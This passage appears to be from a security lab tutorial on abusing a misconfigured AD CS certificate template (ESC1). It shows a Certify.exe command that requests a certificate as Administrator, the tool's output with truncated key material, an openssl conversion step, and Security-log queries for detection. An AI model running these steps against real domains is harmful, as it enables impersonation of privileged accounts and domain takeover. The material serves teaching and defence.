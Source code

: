     All Domain users can request a certificate on this template.
    The flag https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-crtd/1192823c-d839-4bc3-9b6b-fa8c53507ae1 is present, allowing the requester to specify the SAN (therefore, any user can request a certificate as any other user in the network, including privileged ones).
    Manager approval is not required (the certificate gets issued immediately after the request without approval).
    The certificate can be used for 'Client Authentication' (we can use it for login/authentication).

To abuse this template, we will use `Certify` and pass the argument `request` by specifying the full name of the CA, the name of the vulnerable template, and the name of the user, for example, `Administrator`:
```PowerShell
PS C:\Users\bob\Downloads> .\Certify.exe request /ca:PKI.eagle.local\eagle-PKI-CA /template:UserCert /altname:Administrator

  v1.0.0

[*] Action: Request a Certificates

[*] Current user context    : EAGLE\bob ## <--
[*] No subject name specified, using current context as subject.

[*] Template                : UserCert
[*] Subject                 : CN=bob, OU=EagleUsers, DC=eagle, DC=local
[*] AltName                 : Administrator ## <--

[*] Certificate Authority   : PKI.eagle.local\eagle-PKI-CA

[*] CA Response             : The certificate had been issued. ### <--
[*] Request ID              : 36

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
MIIE...
<SNIP>
<SNIP>
wgP7EwPpxHKOrlZr6H+5lS58u/9EuIgdSk1X3VWuZvWRdjL15ovn
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIIGLzCCBRegAwIBAgITFgAAACx6zV6bbfN1ZQAAAAAALDANBgkqhkiG9w0BAQsF
<SNIP>
<SNIP>
eVAB
-----END CERTIFICATE-----


[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx


Certify completed in 00:00:15.8803493
```


[dc1]: PS C:\Users\Administrator\Documents> hostname
[dc1]: PS C:\Users\Administrator\Documents> whoami
[dc1]: PS C:\Users\Administrator\Documents>
[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4887'}
[pki]: PS C:\Users\htb-student\Documents> $events = Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[pki]: PS C:\Users\htb-student\Documents> $events[0] | Format-List -Property *